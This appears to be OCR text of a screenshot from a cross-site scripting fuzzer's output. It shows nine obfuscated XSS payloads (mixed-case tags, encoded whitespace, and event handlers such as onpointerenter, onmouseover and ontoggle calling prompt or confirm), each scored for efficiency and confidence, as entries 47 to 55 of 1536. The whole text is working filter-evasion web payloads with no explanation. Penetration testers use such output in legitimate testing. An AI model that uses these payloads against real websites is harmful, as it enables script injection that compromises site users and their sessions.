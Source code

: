 ------------------------------------------------------------
 Payload: <A%09onPointERENtEr+=+(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 47/1536
 
------------------------------------------------------------
 Payload: <Html%0dOnPOINtEReNter+=+confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 48/1536
 
------------------------------------------------------------
 Payload: <D3v%0aOnmouSeOVer%0d=%0d(prompt)``//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 49/1536
 
------------------------------------------------------------
 Payload: <A%0donmouseoVEr+=+confirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 50/1536
 
------------------------------------------------------------
 Payload: <hTML%0donmOUseoVER%0d=%0da=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 51/1536
 
------------------------------------------------------------
 Payload: <DeTails/+/ONPoiNTereNTEr%0a=%0a[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 52/1536
 
------------------------------------------------------------
 Payload: <deTaILS%0donTOgglE%0d=%0d(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 53/1536
 
------------------------------------------------------------
 Payload: <HtMl/+/oNMOUSEover%0a=%0a(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 54/1536
 
------------------------------------------------------------
 Payload: <dEtAils%0dOnPoINTEREnteR%0d=%0d(confirm)()// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 55/1536
 